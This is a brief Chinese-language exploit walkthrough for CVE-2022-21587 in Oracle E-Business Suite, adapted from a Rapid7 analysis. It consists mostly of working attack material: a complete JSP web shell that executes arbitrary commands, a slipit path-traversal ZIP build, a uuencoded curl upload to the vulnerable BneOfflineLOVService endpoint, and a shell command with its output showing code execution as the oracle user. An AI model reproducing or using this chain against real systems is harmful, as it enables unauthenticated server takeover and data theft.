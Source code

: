 # EXP制作
创建一个要上传文件:  
```h
$ cat <<EOT >> hax.jsp
<%@ page import="java.util.*,java.io.*"%>
<%
String cmd = request.getParameter("cmd");
if(cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String line = dis.readLine();
    while(line != null) {
        out.println(line); 
        line = dis.readLine(); 
    }
}
%>
EOT
```  
然后，我们使用`slipit`命令将这个JSP文件添加到ZIP存档中，文件名称添加5个双点说明符，来利用路径遍历漏洞，把文件写入到`/u01/install/APPS/fs1/FMW_Home/Oracle_eb-app1/applications/forms/forms/hax.jsp`  
```h
$ slipit --overwrite --separator '/' --depth 5 --prefix '/FMW_Home/Oracle_EBS-app1/applications/forms/forms/' hax.zip hax.jsp
```  
然后，我们对ZIP文件进行`uuencode`编码  

`$ uuencode hax.zip hax.zip > hax.uue`  

然后向四个易受攻击的端点之一发出POST请求,进行webshell文件上传。  

`$ curl http://192.168.86.37:8000/OA_HTML/BneOfflineLOVService?bne:uueupload=true -F upload=@hax.uue`  

然后利用JSP web shell执行任意命令  

```h
$ curl http://192.168.86.37:8000/forms/hax.jsp?cmd=id

uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

原文地址：https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis?referrer=notificationEmail